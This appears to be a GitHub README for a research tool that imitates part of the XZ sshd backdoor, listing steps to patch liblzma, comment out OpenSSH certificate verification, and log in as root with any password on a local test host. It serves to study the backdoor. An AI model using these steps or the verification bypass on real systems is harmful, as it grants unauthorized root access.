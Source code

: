 # Jia Tan's SSH Agent

Simple SSH Agent that implements some of the XZ sshd backdoor functionality.

For those who want to more easily explore the backdoor using a typical SSH client.

![demo](assets/demo.png)

## Usage

- Patch your liblzma.so with a [custom ed448 public key](https://github.com/amlweems/xzbot/tree/main?tab=readme-ov-file#ed448-patch)
- Patch your SSH client to skip verification of the certificate:
  - Look for this section in openssh's `sshkey.c` and commment it out:
  ```c
  if ((ret = sshkey_verify(key->cert->signature_key, sig, slen,
             sshbuf_ptr(key->cert->certblob), signed_len, NULL, 0, NULL)) != 0)
  {
  	goto out;
  }
  ```
- `python3 -m virtualenv venv && . venv/bin/activate && pip install -r requirements.txt`
- `python3 agent.py /tmp/agent ./privkey.bin`
- `SSH_AUTH_SOCK=/tmp/agent ./ssh root@localhost`
- log in with any password :)

-- blasty `<peter@haxx.in>`
